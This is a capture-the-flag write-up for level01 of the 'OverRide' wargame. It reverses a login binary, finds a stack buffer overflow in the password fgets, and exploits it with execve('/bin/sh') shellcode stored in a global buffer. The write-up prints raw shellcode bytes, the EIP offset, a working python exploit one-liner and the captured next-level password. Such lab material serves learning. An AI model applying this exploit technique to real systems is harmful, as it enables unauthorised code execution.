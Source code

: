 after checking the assembly, we find the expect username is dat_wil and password is admin, and when we try : 
```level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
admin
nope, incorrect password...
```
no matter what password, we type, we get "nope, incorrect password..."

we find that The first fgets() is used the global var[100], with lenght 100 but in the case of the second fgets(), we can see that it uses a local stack buffer and that its size parameter is 100 which is bigger than the available space in the stack frame(96). it's a buffer overflow vulnerability, allowing an attacker to overwrite the saved EIP and redirect execution to injected shellcode. 
also it disable NX, means NX (No-eXecute) is a security feature that marks certain memory regions (like the stack or heap) as non-executable. so it does not prevent it, we can exploit that.

+-----------------+ <- High memory address (e.g., 0xfffffff0)
| Return Address  | (Saved %eip, overwritten during overflow)
+-----------------+
| Saved %ebp      | (Base pointer of the previous stack frame)
+-----------------+
| password_buffer | <- Starts at `0x1c(%esp)` (28 bytes offset from %esp)
|                 |    (Overflow starts here)
|                 |
| Local Variables | (96 bytes allocated for local variables)
+-----------------+ <- Low memory address (e.g., 0xffffffa0)

1. find the offset by pattern generator
```(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
'6aC7'
offset 80 bytes

so we can do
1. username (dat_wil + shellcode) is stored in the global buffer.
2. The password input overflows the local stack buffer and overwrites the saved return address (EIP) with the address of the shellcode.
3. When the function returns, execution jumps to the shellcode(global buffer+ 7), spawning a shell.

Shellcode (21 bytes):
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
https://www.exploit-db.com/exploits/41757
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
https://shell-storm.org/shellcode/files/shellcode-752.html
- execve("/bin/sh", NULL, NULL);

```level01@OverRide:~$ python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'A' * 80 + '\x47\xa0\x04\x08'" > /tmp/level01
level01@OverRide:~$ cat /tmp/level01 - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

cat /home/users/level02/.pass            
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```